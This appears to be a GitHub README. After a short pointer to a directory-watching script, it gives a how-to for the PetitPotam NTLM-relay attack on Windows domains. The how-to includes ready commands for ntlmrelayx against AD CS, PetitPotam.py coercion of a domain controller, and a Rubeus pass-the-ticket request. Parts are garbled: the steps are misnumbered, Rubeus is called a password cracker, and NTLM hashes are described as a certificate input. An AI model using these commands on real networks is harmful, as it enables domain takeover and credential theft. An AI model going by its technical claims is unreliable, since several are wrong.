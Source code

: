 **Important note: Please visit http://timgolden.me.uk/python/win32_how_do_i/watch_directory_for_changes.html to help you learn how to use filetactician.py**

**Important Note: PetitPotam Hijacking Attack what is is and how to perform it!** <br />
`Description:` <br />
A PetitPotam hijacking attack is a type of security exploit that targets Windows systems, specifically leveraging the Microsoft EFSRPC (Encrypting File System Remote Protocol) to coerce a machine into authenticating to an attacker-controlled server. By sending specially crafted requests, an attacker can force a target to reveal its NTLM (NT LAN Manager) credentials, which can then be used to gain unauthorized access to sensitive resources. This attack is particularly concerning because it can be executed without prior access to the network, making it a stealthy vector for compromising systems and gaining elevated privileges. <br />
`Execution Steps:` <br />
1. Use the `certutil.exe` command to identify the certificate authority. <br />
2. Use the `ntlmrelayx.py -t <URL of Certificate authority with web enrolment> -smb2support --adcs --template DomainController` command from the Impacket tool kit to set up HTTP/SMB configuration to capture credentials from the Domain Controller. <br />
3c. Use the `python3 PetitPotam.py -d <CA name> -u <Username> -p <Password> <Listener-IP> <IP of DC>` command to force the authentification using the captured credentials through the MS-EFSRPC (Microsoft's Encrypting File System Remote Protocal) call. <br />
3b.If the DC is vulnerable the attack can be launched without credentials using the `python3 PetitPotam.py <Attacker’s IP> <IP of DC>` PetitPotam command to recieve the certificate's NTLM (New Technology LAN Manager) hashes. <br />
![image](https://github.com/user-attachments/assets/d6d124e3-fe65-468f-b757-2b5542d24c5f) <br />
`Username: User ID: LM Hash: NTLM Hash:::` <br />
4. Once you have obtained the NTLM hashes of the certificate, utilize password-cracking tools such as Rubeus, Hashcat, etc. `Example Rubeus command: Rubeus.exe asktgt /outfile.kirbi /dc:<DC-IP> /domain: domain name /user: <Domain username> /ptt /certificate: <NTLM hashes received from above command>` <br />
Command Breakdown: <br />
   a. Rubeus.exe: This is the executable file for the Rubeus tool, which allows for various Kerberos-related operations. <br />
   b. asktgt: This is a command within Rubeus that requests a Ticket Granting Ticket (TGT) from the Kerberos Key Distribution Center (KDC). This is often done to gain access to a domain. <br />
   c. /outfile.kirbi: This option specifies the output file where the obtained TGT will be saved. In this case, the file will be named outfile.kirbi. The .kirbi extension is commonly used for Kerberos tickets. <br />
   d. /dc:<DC-IP>: This option specifies the IP address of the Domain Controller (DC) that will be queried for the TGT. Replace <DC-IP> with the actual IP address of the target DC. <br />
   e. /domain: <domain name>: This specifies the domain for which you are requesting the TGT. You need to replace <domain name> with the actual name of the domain you want to access. <br />
   f. /user: <Domain username>: This option indicates the username of the domain account for which the TGT is being requested. Replace <Domain username> with the actual username. <br />
   g. /ptt: This flag stands for "Pass The Ticket." It indicates that if the TGT is successfully obtained, it should be loaded into the current session, allowing the user to authenticate without needing to re-enter credentials. <br />
   h. /certificate: <NTLM hashes received from above command>: This option specifies NTLM hashes that might be used for authenticating or acquiring the TGT. The placeholder <NTLM hashes received from above command> should be replaced with actual NTLM hashes that were obtained previously, typically from another command or tool. <br />
**For more information please visit the links below:** <br />
`1. Summary of vulnerability with mitigation techniques:` https://www.rapid7.com/blog/post/2021/08/03/petitpotam-novel-attack-chain-can-fully-compromise-windows-domains-running-ad-cs/ <br />
`2. Another summary of the vulnerability with a guideline on how to setup and conduct a practice lab:` https://medium.com/r3d-buck3t/domain-takeover-with-petitpotam-exploit-3900f89b38f7 <br />
`3. Practical usage of NTLM Hashes pth-toolkit and Impacket Guide:` https://blog.ropnop.com/practical-usage-of-ntlm-hashes/ <br />
